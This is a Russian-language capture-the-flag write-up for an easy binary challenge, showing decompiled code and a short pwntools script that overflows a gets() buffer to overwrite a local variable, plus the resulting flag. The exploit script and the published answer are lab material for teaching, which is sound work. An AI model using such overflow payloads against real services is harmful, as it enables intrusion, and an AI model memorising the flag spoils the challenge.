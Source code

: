 
# Сайт: forkbomb.ru 
# Автор: @mrvos (Vlad Roskov)
# Сложность: Easy

Решим последнюю задачу из категории MicCheck. Воспользуемся инструментом сстатического анализа Ghidra и отладчком edb. 
Посмотрим, как выглядит программа.

#### 1. Дизассемблированный вид:
![image](https://github.com/user-attachments/assets/e8c6059d-0544-46d1-a9e9-8f7100444bb5)

#### 2. Декомпилированный вид: 
![image](https://github.com/user-attachments/assets/ed5d5b5c-19c2-4059-98c5-d712661d15e8)

Изначально на стеке (до вызова функции `gets`) лежит два числа 0 и 0x29a, самым первым будет на стеке лежать содержимое массива `char local_38[8]`. Так, как в программе 
используется небезопасная функция `gets` можно и отсутствует `stack-protector` мы можем переполнить буфер и перезаписать число находящееся по смещению `[RBP + local_10]`, то есть 0x29a.
Сделаем это с помощью библеотеки `pwntools`.

```py
from pwn import * 

p = remote('109.233.56.90', 11586)
magic_num = 0xcc07c9
p.sendline(b"AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA" + p32(magic_num))
p.interactive()
```
Запустив код, получим флаг: <br />
![image](https://github.com/user-attachments/assets/3126a6ae-1d21-42e1-9469-9bf7b2085ad7)

Ответ: `spbctf{s4v3d_the_w0rld_fr0M_HELL}`



